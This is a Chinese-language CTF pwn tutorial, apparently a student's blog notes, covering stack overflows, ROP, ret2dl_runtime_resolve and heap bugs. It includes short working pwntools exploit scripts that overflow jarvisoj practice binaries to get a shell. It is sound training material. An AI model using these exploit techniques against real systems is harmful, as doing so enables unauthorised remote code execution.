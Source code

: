 ```yaml
---
title: 面向板子写exp
date: 2017-07-18
categories:
-  curriculum_self
tag: vulnerability_overview
---
```


# pwn 是什么

钻可执行二进制文件的空子的一种技术。

# pwn 需要的工具

1. 一些python技能
2. pwntools
3. ida
4. gdb 
5. 关于程序漏洞的基础知识

# pwn 可以干什么

利用提前写好的脚本攻击某一个进程，控制运行这个进程的主机。也就是常说的getshell。

# 几个基础漏洞

1. 栈溢出
2. 堆溢出
3. 格式化字符串漏洞
4. 其他 <font style="font-size:10px">——对不起我还没有学到这里来TAT</font>

# 例子

## 简单栈溢出

 关于栈的内容：<a href="https://blog.csdn.net/xiliang_pan/article/details/52174143">click!</a>

1. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level1

    直接往栈上直接写shellcode。将返回地址覆盖成shellcode开始的地址。    
    两个条件：
    > NX防护没有开 
    >  
    > 知道栈地址

    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071891259_PVHSV.png)

2. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level0

    - 漏洞是明显的栈溢出。    
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_CKAua.png)    

        自带getshell函数。  
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_Xzjfh.thumb.700_0.png)
        
    - checksec可以发现    
        ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885245_Y5ynZ.png)

        PIE没开，所以可以直接攻击他的返回地址。   
     ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/2019071885037_cw5yK.thumb.700_0.png)
       
    -  exp
    ```python
    from pwn import *

    sh= process("./level0")
    system_addr=0x400596
    payload='A' * 0x80 +'B' * 0x8 +p64(system_addr)

    sh.sendline(payload)
    sh.interactive()
    ```
3. **<a href="https://www.jarvisoj.com" style ="font-size:16px">jarvisoj</a>**-level2

    这道题没有直接的`system("/bin/sh")`,需要在伪造返回地址的基础上构造参数。
    ```python
    from pwn import *

    payload = 'a'*(0x88+0x4)
    elf=ELF("./level2")
    sys_addr=elf.symbols["system"]
    bin_addr=elf.search("/bin/sh").next()
    payload += p32(sys_addr)+p32(0xdeadbeef)+p32(bin_addr)

    sh=remote("pwn2.jarvisoj.com",'9878')
    sh.sendline(payload)
    sh.interactive()
    ```

## 基础 ROP 利用
<a href="https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2syscall">ctfwiki</a>上讲的太详细了=v< 

## <a href="https://cythz.github.io/sundry/2019/07/18/smallbug3/#">smallbug3</a>
- 关于`canary`和`pie`的

## ret2_dl_runtime_resolve

### 概念
- 四个section
1. `.dynamic `

    保存了下面三个section的指针。 
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_MEQ38.png)  
2. `.dynstr`   

    是一个字符串表，内容是指针，指向函数名字符串。    
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_zxxdM.png)
3. `.dynsym`   

    是一个结构体数组。    
    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_wkKPS.png)
4. `.rel.plt `  
    
    也是一个结构体数组。

    ![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718191401_MjzWz.png)


### `__dl_runtime_resolve` 大致流程

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718171653_JuHvd.png)


### 攻击手段

#### 改写`.dynstr`节的指针
让这个指针指向我们需要的函数名字符串，例如`system`字符串
- 缺陷
    只有在NO RELRO时候才有权限更改.dynstr。

#### 伪造结构体

因为函数的执行过程就是不断地寻找结构体，从结构体中拿数据，而在函数源码中，并不会检查offset是否会过界，所以我们可以在可控制的地方伪造结构体，来调用目标函数。

0. 计算fake_rel和`.rel.plt`的距离偏移量作为offset，注意64位需要除以`sizeof(ELF32_REL)`。

1. 伪造一`fake_rel`，使他的rel_info字段成为`0x******07`，这个07是导入函数的参数。暂时不知道干嘛的，但最好不要改。

2. `******`是指fake_sym距离`.dynsym`的`偏移/sizeof(ELF32_SYM)`。

3. `fake_sym`中`st_name`是fake_string距离`.dynstr`的偏移量。



<a href="https://github.com/CythZ/ret2_dl_runtime_resolve">三道题</a>
    
## heap
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/15/bamboobox/#">unlink</a>
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/15/bamboobox/#">HOF</a>
### <a href="https://cythz.github.io/hitcon_trainning/2019/07/13/hacknote/#">UAF</a>


## <a href="https://cythz.github.io/hitcon_trainning/2019/07/13/playfmt/#">格式化字符串漏洞</a>

## 其他

### 只了解了一个

![avatar](https://c-ssl.duitang.com/uploads/item/201907/18/20190718152603_dYEFR.png)  
.init_array 和 .fini_array节存放了指向初始化代码和终止代码的函数指针。.init_array函数指针会在调用main()之前被触发，.fini_array函数指针在main()执行完后才被触发。 这就意味着可以通过重写某个指向正确地址的指针来将控制流指向病毒或者寄生代码。

# 写exp时的几个trick

1. 显示发送和接收的数据
```python
context.log_level = 'debug'
```

2. debug
```python
context.terminal = ['deepin-termina','-x','sh','-c']
sh=process('./elffile')
gdb.attach(sh)
```

3. 不用写libc的绝对路径
```python
libc = ELF('./elffile').libc
```